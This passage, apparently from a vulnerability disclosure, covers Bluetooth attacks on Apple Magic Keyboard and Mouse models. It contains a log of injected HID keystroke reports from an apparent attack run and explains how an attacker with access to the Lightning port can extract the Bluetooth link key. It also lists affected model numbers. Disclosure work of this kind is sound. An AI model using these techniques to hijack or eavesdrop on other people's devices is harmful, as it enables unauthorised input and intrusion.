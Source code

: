 ```
[2024-01-07 12:25:49.576]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.580]  [TX-19] a10100000c000000000000
[2024-01-07 12:25:49.585]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.589]  [TX-19] a101000016000000000000
[2024-01-07 12:25:49.593]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.598]  [TX-19] a10102002ee10000000000
[2024-01-07 12:25:49.602]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.607]  [TX-19] a101000009000000000000
[2024-01-07 12:25:49.611]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.616]  [TX-19] a10100000c000000000000
[2024-01-07 12:25:49.620]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.625]  [TX-19] a101000011000000000000
[2024-01-07 12:25:49.629]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.633]  [TX-19] a101000008000000000000
[2024-01-07 12:25:49.638]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.642]  [TX-19] a101020034e10000000000
[2024-01-07 12:25:49.646]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.651]  [TX-19] a101000028000000000000
[2024-01-07 12:25:49.655]  [TX-19] a101000000000000000000
[2024-01-07 12:25:49.760]  payload has been transmitted; disconnecting Bluetooth HID client
[2024-01-07 12:25:49.761]  taking 'hci1' offline
```

## Link Key Extraction

### Magic Keyboard Link Key via Lightning Port

When the Magic Keyboard is plugged into the Mac, the Mac sends the Bluetooth link key to the Magic Keyboard over USB.

The link key remains in memory until the Magic Keyboard is powered off, and can be read by an attacker with access to the lightning port on the keyboard.

#### Affected Versions

The following Apple peripherals were tested and found vulnerable to this attack. No other peripherals were tested, so this list may be incomplete.

| Product Name | Model Number |
|-|-|
| Magic Keyboard | A2450 |
| Magic Keyboard with Touch ID | A2449 |
| Magic Keyboard with Numeric Keypad | A1843 |
| Magic Keyboard with Touch ID and Numeric Keypad | A2520 |
| Magic Mouse | A1657 |

#### Starting State
